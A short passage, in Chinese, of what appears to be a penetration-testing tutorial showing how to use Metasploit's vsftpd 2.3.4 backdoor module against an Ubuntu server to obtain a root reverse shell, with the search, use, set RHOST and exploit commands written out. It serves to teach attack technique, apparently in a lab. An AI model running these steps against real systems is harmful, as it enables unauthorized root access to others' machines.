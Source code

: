 ```
search vsftpd
```

这将显示带有该特定关键字的漏洞利用列表。在这种情况下，这只是一个漏洞：

![](img/e44c426b-3109-4681-bfd7-815f81bdd7a8.png)

我们可以通过运行以下程序来利用此漏洞：

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

这会将提示更改为利用漏洞的提示。现在需要做的就是运行以下程序：

```
set RHOST <ip address of Ubuntu server>
```

确认情况如下：

![](img/bec749ad-29cb-4123-a329-3c6508c93b5d.png)

最后，只需运行`exploit`，执行`vsftpd exploit`即可提供具有`root`权限的交互反向 shell：

![](img/a98aa71a-2885-43d3-b8a2-cb73442b6e4c.png)
